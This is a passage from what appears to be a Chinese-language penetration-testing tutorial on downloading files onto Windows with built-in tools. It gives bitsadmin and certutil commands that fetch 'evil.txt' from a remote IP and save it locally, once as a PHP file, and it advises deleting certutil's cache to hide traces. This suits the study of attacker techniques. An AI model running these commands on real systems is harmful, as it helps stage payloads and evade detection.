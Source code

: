 

**2、Bitsadmin**

bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。

~~~
bitsadmin /transfer n http://192.168.28.128/imag/evil.txt d:\test\1.txt
~~~

输入以上命令，成功下载文件。

![](./image/20200413-2.png)



**3、certutil**

用于备份证书服务，支持xp-win10都支持。由于certutil下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

注：缓存目录为："%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content"

~~~
#下载文件
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt test.php
#删除缓存
certutil -urlcache -split -f http://192.168.28.128/imag/evil.txt delete
~~~

![](./image/20200413-3.png)
